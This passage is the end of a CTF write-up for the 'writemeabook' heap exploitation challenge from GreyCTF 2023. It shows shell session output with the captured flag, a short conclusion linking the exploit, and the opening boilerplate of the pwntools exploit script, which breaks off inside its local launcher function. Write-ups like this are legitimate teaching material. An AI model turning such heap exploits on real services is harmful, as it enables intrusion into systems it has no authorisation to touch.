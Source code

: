 ```
Your book has been rewritten!

grey{gr00m1ng_4nd_sc4nn1ng_th3_b00ks!!}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb9\x81\x00\x00\x00\xb8\x81\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb1\x81\x00\x00\x00\x00\x00\x00\x00\xc0\x81\x00\[*] Got EOF while reading in interactive
$ exit
$ 
[*] Closed connection to 34.124.157.94 port 12346
[*] Got EOF while sending in interactive
```

## Conclusion

That was a nice medium heap challenge, even though that was pretty classic. You can find the tasks and the exploit [here](https://github.com/ret2school/ctf/tree/master/2023/greyctf/pwn/writemeabook).

## Annexes

Final exploit (with comments):
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "chall"
LIBC = "/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6"
LD = "/home/nasm/Documents/pwn/greycat/writemeabook/dist/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```